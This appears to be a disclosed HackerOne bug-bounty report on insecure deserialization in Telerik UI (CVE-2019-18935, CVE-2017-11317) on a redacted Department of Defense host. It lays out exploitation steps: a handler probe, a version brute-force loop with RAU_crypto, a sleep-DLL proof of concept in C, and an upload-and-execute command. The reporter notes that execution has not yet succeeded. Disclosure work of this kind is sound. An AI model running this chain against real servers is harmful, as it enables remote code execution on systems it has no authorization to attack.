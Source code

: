 # Remote Code Execution via Insecure Deserialization in Telerik UI (CVE-2019-18935)

## Report Details
- **Report ID**: 1174185
- **URL**: https://hackerone.com/reports/1174185
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-04-25T09:38:03.622Z
- **Disclosed**: 2021-06-03T16:27:14.424Z

## Reporter
- **Username**: un4gi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
https://██████/██████████/Telerik.Web.UI.WebResource.axd?type=rau is vulnerable to CVE-2017-11317 and CVE-2019-18935, allowing an attacker to upload arbitrary files and gain remote code execution on the underlying system.

## References
https://labs.bishopfox.com/tech-blog/cve-2019-18935-remote-code-execution-in-telerik-ui

## Impact

An attacker can execute code on the vulnerable server, allowing an attacker to gain a foothold and exfiltrate data. Depending on the security posture of the underlying system, an attacker may be able to escalate privileges or laterally move to other systems within the network using this access.

## System Host(s)
████

## Affected Product(s) and Version(s)
Telerik UI Version ███

## CVE Numbers
CVE-2017-11317, CVE-2019-18935

## Steps to Reproduce
## Verify the Upload Handler is Registered
First, confirm the file upload handler is registered by issuing the following request:
```bash 
curl -sk https://██████████/██████████/Telerik.Web.UI.WebResource.axd?type=rau
```
You should see the following response:
```
{ "message" : "RadAsyncUpload handler is registered succesfully, however, it may not be accessed directly." }
```


## Version Identification
Next, you will need to install `RAU_crypto` (https://github.com/bao7uo/RAU_crypto) and use it to submit upload requests with known vulnerable versions until finding the correct version. After `RAU_crypto` has been installed, you can use the following script (with the attached _versions.txt_ file):
```bash
echo 'test' > testfile.txt
for VERSION in $(cat versions.txt); do
            echo -n "$VERSION: "
                python3 RAU_crypto.py -P '█████' "$VERSION" testfile.txt https://█████████/█████/Telerik.Web.UI.WebResource.axd?type=rau 2>/dev/null | grep fileInfo || echo
        done
```

This uploads a file (in this case, `testfile.txt`) to the `█████` directory on the target server. The contents of my `testfile.txt` simply included the word "test".

The script should eventually identify a vulnerable version (`████████`), indicating the file upload succeeded and showing an encrypted blob of data related to the uploaded file:
```bash
█████████: {"fileInfo":{"FileName":"RAU_crypto.bypass","ContentType":"text/html","ContentLength":5,"DateJson":█████ }
```

## Compiling a Test Payload
Now that we know we can upload a file to the target, we can attempt to exploit the deserialization vulnerability. To do this, we can compile and upload a DLL that causes the server to sleep for 10 seconds before responding:
```c
#include <windows.h>
#include <stdio.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    if (fdwReason == DLL_PROCESS_ATTACH)
        Sleep(10000);  // Time interval in milliseconds.
    return TRUE;
}
```

As a .NET application will only load an assembly once with a given name, the dll from my test will only successfully sleep the server on the first exploit. I have compiled and attached an unused dll for testing purposes if desired (if not, just follow the steps from the link in the references section).

## Exploitation
Now that we have our test payload ready, we can use the attached _CVE-2019-18935.py_ script to upload and execute the dll.

```bash
python3 CVE-2019-18935.py -u https://███████/███/Telerik.Web.UI.WebResource.axd?type=rau -v ██████████ -f '███' -p sleep_2020070207013954_amd64.dll
```

> *Note: I'm having trouble getting the server to sleep with the crafted `.dll`. The files are getting uploaded, but do not seem to be causing the server to sleep as expected. It is 02:30 AM here at the moment so I am heading to bed but will update tomorrow with more info in the comments, and will end up self closing if I can't get execution.*

## Suggested Mitigation/Remediation Actions
Update TelerikUI to the latest (or a patched) version.



## Attachments
No attachments
